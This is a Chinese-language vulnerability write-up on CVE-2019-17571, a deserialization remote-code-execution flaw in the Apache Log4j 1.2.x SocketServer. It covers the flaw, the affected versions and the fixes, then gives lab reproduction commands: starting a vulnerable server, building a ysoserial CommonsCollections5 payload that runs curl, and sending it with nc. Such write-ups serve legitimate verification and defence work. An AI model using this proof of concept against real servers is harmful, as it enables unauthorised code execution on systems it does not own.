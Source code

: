 # CVE-2019-17571/Apache Log4j 1.2.X存在反序列化远程代码执行漏洞  

漏洞预警参考链接： https://mp.weixin.qq.com/s/okU2y0izfnKXXtXG3EfLkQ  

### 1. 漏洞描述  

Apache Log4j是美国阿帕奇（Apache）软件基金会的一款基于Java的开源日志记录工具.Apache Log4j 1.2.X系列版本中存在反序列化远程代码执行漏洞.攻击者可利用该漏洞执行任意恶意命令.在Log4j 1.2.X中包含一个SocketServer类,该类很容易对不可信数据进行反序列化,当侦听日志数据的不可信网络流量时,与反序列化小工具结合使用时,可以利用该类远程执行任意代码.影响包含目前最新版本.

### 2. 漏洞危害  
高危  

影响范围
1.2.4 <= Apache Log4j <= 1.2.17(最新版)

修复建议
1.升级到Apache Log4j 2系列最新版

2.禁止将该类所开启的socket端口暴露到互联网

### 3. 漏洞验证  
Apache Log4j 2.8.1时代就存在反序列化远程代码执行漏洞(CVE-2017-5645),当时触发的漏洞类为org.apache.logging.log4j.core.net.server.TcpSocketServer,到了Apache Log4j 1.2.X时代,漏洞类变为org.apache.log4j.net.SocketServer   

#### 1. 启动漏洞环境  

通过晚上查找，发现启动log4j 1.X的socketserver的方式是通过java命令，而非通过java代码开启。（如果有其它开启方式，欢迎告知）   

同样，需要下载受影响的jar包以及可以进行代码执行的jar包，设置到环境变量中(以下为windows环境)，启动服务，传递3个参数，一个是端口、log4j配置文件、lcf目录：  

	java -cp log4j-1.2.17.jar;c3p0-0.9.5.2.jar;mchange-commons-java-0.2.11.jar;commons-collections-3.1.jar org.apache.log4j.net.SocketServer 4560 log4jserver.properties ./    
	
	java -cp log4j-1.2.17.jar:../commons-collections/commons-collections-3.1.jar org.apache.log4j.net.SocketServer 4560 config/log4jserver.properties ./
	

#### 2. 利用log4j2的RCE POC  
	
		java -jar ysoserial-master.jar CommonsCollections5 "curl http://127.0.0.1/ssrf/ssrf.php?rand=log4j" > log4j.curl.bin  
	
#### 3. nc发送恶意socket  

	nc 127.0.0.1 4560 < log4j.curl.bin

相关jar包获取：https://github.com/shadow-horse/Vulenvironment/libs    



